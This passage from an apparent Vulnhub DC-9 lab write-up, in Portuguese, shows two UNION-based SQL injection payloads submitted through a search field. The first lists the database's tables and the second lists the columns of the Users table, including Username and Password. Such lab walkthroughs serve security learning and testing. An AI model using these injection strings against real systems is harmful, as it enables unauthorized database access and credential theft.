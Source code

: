 
\newpage

* Listando as tabelas do banco de dados que esta sendo usado: **StaffDetails** e **Users**

```bash
search=Fred' union select 1,2,3,4,5,table_name from information_schema.columns where table_schema = database() #
```

![](/assets/img/Vulnhub/DC-9/tabelas-staff.png)


\newpage

* Listando as colunas da tabela "Users": **UserId**, **Username** e **Password**

```bash
search=Fred' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'Users' #
```
